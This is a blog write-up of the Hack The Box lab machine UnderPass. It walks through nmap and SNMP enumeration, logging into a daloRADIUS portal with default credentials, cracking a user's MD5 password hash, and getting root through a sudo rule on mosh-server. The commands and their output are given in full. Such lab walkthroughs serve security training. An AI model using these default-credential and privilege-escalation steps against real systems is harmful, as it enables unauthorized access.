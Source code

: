 +++
title = "HTB - UnderPass"
date = "2025-04-22"
author = "dax"
cover = ""
tags = ["snmp", "daloradius", "mosh"]
keywords = ["hacking", "htb", "underpass", "hack the box"]
description = "Write-up of Hack The Box easy machine UnderPass"
showFullContent = false
readingTime = true
hideComments = false
color = "green"
+++

# HTB - UnderPass
## Enumeration:
Nmap
```bash
# Nmap 7.95 scan initiated Fri Apr  4 13:21:10 2025 as: /usr/lib/nmap/nmap -v -p - -Pn -T4 -A -oN nmaptcp underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Uptime guess: 28.785 days (since Thu Mar  6 17:31:14 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   22.07 ms 10.10.14.1
2   22.48 ms underpass.htb (10.10.11.48)

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  4 13:21:40 2025 -- 1 IP address (1 host up) scanned in 30.65 seconds

# Nmap 7.95 scan initiated Fri Apr  4 13:21:25 2025 as: /usr/lib/nmap/nmap -v --top-ports 100 -Pn -T4 -A -sU -oN nmapudp underpass.htb
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (0.035s latency).
Not shown: 65 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
161/udp   open          snmp            SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 7h23m18s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 7h23m17.75s (2659775 timeticks)

Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!

Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  4 13:26:41 2025 -- 1 IP address (1 host up) scanned in 315.62 seconds
```

## User exploit

Looking at the NMap UDP scan, we can see that SNPM port 161 is open. SNPM can be useful to gather information about a host (and sometimes to write that information too). In this case, as we can see from the NMap service info, the server seems to be a Daloradius server. We can also get this information by querying the `public` community with `snmp-check`. 

```bash
snmp-check 10.10.11.48 -c public
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 14:24:33.70
  Uptime system                 : 14:24:22.39
  System date                   : 2025-4-23 00:28:23.0
```

As per their Github page, daloRADIUS is an advanced RADIUS web management application for managing hotspots and general-purpose ISP deployments. We can have a look at their repository to figure out the directory structure, and soon enough we can find the operator's login page on web port 80 at http://underpass.htb/daloradius/app/operators/login.php. 

![](/img/htb/underpass/daloradius_login.png)

A quick Google search gives us the default credentials (administrator:radius), which allows us to log in to the operator's portal. Taking a quick look around, we eventually stumble upon the `Management > Users > List Users` interface, which contains the user `svcMosh`. It also has a very suspicious `Password` column that seems to contain a hash. 

![](/img/htb/underpass/daloradius_user.png)

By editing the user and going to the `Check Attributes` tab, we can see that this is indeed an `MD5` hash for the user's password, which we can easily crack online to get the password. 

![](/img/htb/underpass/daloradius_pw.png)

We can then use these credentials to log into the SSH port and get the user flag (be careful, usernames are case sensitive).

## Root exploit

Running `sudo -l` tells us that we can run the command `/usr/bin/mosh-server` as root, without supplying a password (`(ALL) NOPASSWD: /usr/bin/mosh-server`). This command allows us to start a Mobile Shell server. The Mosh Github page tells us that Mosh is a remote terminal application that supports intermittent connectivity, allows roaming, and provides speculative local echo and line editing of user keystrokes. 

The Github page doesn't go into many details of how the `mosh-server` command works, but the man page is more helpful. 

```
mosh-server binds to a high UDP port and chooses an encryption key to protect the session. It prints both
on standard output, detaches from the terminal, and waits for the mosh-client to establish a  connection.
It will exit if no client has contacted it within 60 seconds.
```

The `mosh-client` man page also gives us good information. 

```
mosh  itself  is  a  setup  script  that establishes an SSH connection, runs the server-side helper mosh-
server, and collects the server's port number and session key.

mosh then executes mosh-client with the server's IP address, port, and session key. mosh-client runs  for
the lifetime of the connection.

The  22-byte  base64  session  key given by mosh-server is supplied in the MOSH_KEY environment variable.
This represents a 128-bit AES key that protects the integrity and confidentiality of the session.
```

Now that we know how to use the `mosh-server` and `mosh-client` commands, we can use them to get a root shell. 

```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60003 1DPloN+qSDealpww3Sy+/A

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 35250]

MOSH_KEY=1DPloN+qSDealpww3Sy+/A mosh-client 127.0.0.1 60003
```

## Resources:

| Hyperlink                              | Info       |
| -------------------------------------- | ---------- |
| https://github.com/lirantal/daloradius | daloRADIUS |
| https://github.com/mobile-shell/mosh   | Mosh       |

